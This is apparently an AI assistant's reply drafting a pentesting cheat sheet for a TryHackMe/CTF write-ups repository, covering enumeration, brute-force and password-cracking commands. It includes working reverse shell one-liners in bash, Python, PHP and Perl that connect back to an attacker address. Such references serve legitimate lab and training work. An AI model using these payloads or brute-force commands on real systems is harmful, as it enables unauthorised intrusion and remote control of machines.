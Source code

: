 Absolutely! Here’s a **clean, well-organized, and professional `Tools.md`** for your `tryhackme-writeups` repo. It includes commonly used tools, one-liners, payloads, and cheat sheets categorized for easy reference.

---

### 📄 `Tools.md`

```markdown
# 🧰 Pentesting Tools, Payloads & One-Liners

A curated list of tools, commands, and tips I use during CTFs and TryHackMe rooms. This document is constantly updated as I learn more and refine my methodology.

---

## 🕵️‍♂️ Enumeration

### 🔎 Nmap

```bash
nmap -sC -sV -oN nmap/basic <IP>
nmap -A -p- -oN nmap/full <IP>
```

### 🌐 Gobuster / Dirb

```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

### 📜 Nikto

```bash
nikto -h http://<IP>
```

---

## 🛠️ Exploitation Tools

| Tool      | Use Case                    | Link                           |
|-----------|-----------------------------|--------------------------------|
| **sqlmap** | SQL injection automation    | https://sqlmap.org             |
| **hydra**  | Brute force login portals   | https://github.com/vanhauser-thc/thc-hydra |
| **wfuzz**  | Web fuzzing (parameters)    | https://github.com/xmendez/wfuzz |
| **searchsploit** | Find public exploits | https://github.com/offensive-security/exploitdb |

---

## 🧼 Privilege Escalation

### 🔍 LinEnum

```bash
bash LinEnum.sh > linenum_output.txt
```

### 🚀 Linux PE Scripts

- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LES (Linux Exploit Suggester)](https://github.com/mzet-/linux-exploit-suggester)

---

## 🪪 Password Attacks

```bash
hydra -l admin -P rockyou.txt <ip> http-get /admin
john --wordlist=rockyou.txt hash.txt
```

---

## 🐍 Python & Scripting

### Simple HTTP Server

```bash
# Python 3
python3 -m http.server 8000

# Python 2
python -m SimpleHTTPServer 8000
```

### Interactive Reverse Shell (Bash)

```bash
bash -i >& /dev/tcp/<attacker-ip>/<port> 0>&1
```

---

## 📂 File Transfers

```bash
# Python HTTP Server
python3 -m http.server 8080

# Netcat
nc -nlvp 1234 > received_file
```

---

## 🔁 Reverse Shell Cheatsheet

| Language | Payload |
|---------|---------|
| Bash | `bash -i >& /dev/tcp/10.10.14.1/4444 0>&1` |
| Python | `python -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("10.10.14.1",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh"])'` |
| PHP | `php -r '$sock=fsockopen("10.10.14.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'` |
| Perl | `perl -e 'use Socket;$i="10.10.14.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'` |

More: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

---

## 🧠 Wordlists

| Name           | Description                          | Path/Source                         |
|----------------|--------------------------------------|-------------------------------------|
| rockyou.txt    | Common passwords                     | `/usr/share/wordlists/rockyou.txt` |
| SecLists       | Directories, usernames, fuzzing, etc | https://github.com/danielmiessler/SecLists |

---

## 📖 Cheatsheets

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [GTFOBins](https://gtfobins.github.io/)
- [HackTricks](https://book.hacktricks.xyz/)

---

## 📌 Note

This is a live document that grows as I encounter new tools or techniques during CTFs and real-world labs. Contributions and suggestions are always welcome.

> 📚 **Hack to Learn — Not to Harm**
```

---

Let me know if you want a **PDF version** of this, or I can even **auto-generate the file structure for your repo** with all placeholders included.
